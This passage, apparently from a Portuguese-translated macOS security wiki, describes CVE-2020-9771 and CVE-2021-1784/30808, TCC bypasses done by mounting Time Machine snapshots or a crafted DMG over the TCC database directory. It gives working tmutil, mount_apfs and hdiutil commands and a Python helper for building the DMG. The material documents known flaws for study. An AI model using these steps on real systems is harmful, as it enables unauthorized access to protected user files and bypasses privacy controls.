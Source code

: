 ### CVE-2020-9771 - mount\_apfs TCC bypass e escalonamento de privilégios

**Qualquer usuário** (mesmo não privilegiado) pode criar e montar um snapshot do time machine e **acessar TODOS os arquivos** desse snapshot.\
O **único privilégio** necessário é para a aplicação usada (como o `Terminal`) ter acesso de **Acesso Total ao Disco** (FDA) (`kTCCServiceSystemPolicyAllfiles`) que precisa ser concedido por um administrador. 

{% code overflow="wrap" %}
```bash
# Create snapshot
tmutil localsnapshot

# List snapshots
tmutil listlocalsnapshots /
Snapshots for disk /:
com.apple.TimeMachine.2023-05-29-001751.local

# Generate folder to mount it
cd /tmp # I didn it from this folder
mkdir /tmp/snap

# Mount it, "noowners" will mount the folder so the current user can access everything
/sbin/mount_apfs -o noowners -s com.apple.TimeMachine.2023-05-29-001751.local /System/Volumes/Data /tmp/snap

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}

Uma explicação mais detalhada pode ser encontrada no [**relatório original**](https://theevilbit.github.io/posts/cve\_2020\_9771/)**.**

### CVE-2021-1784 e CVE-2021-30808 - Montagem sobre arquivo TCC

Mesmo que o arquivo TCC DB esteja protegido, era possível **montar sobre o diretório** um novo arquivo TCC.db: 

{% code overflow="wrap" %}
```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```
{% endcode %} (This is a markdown tag and should not be translated)
```python
# This was the python function to create the dmg
def create_dmg():
	os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
	os.system("mkdir /tmp/mnt")
	os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
	os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
	os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
	os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```
Verifique o **exploit completo** no [**artigo original**](https://theevilbit.github.io/posts/cve-2021-30808/).
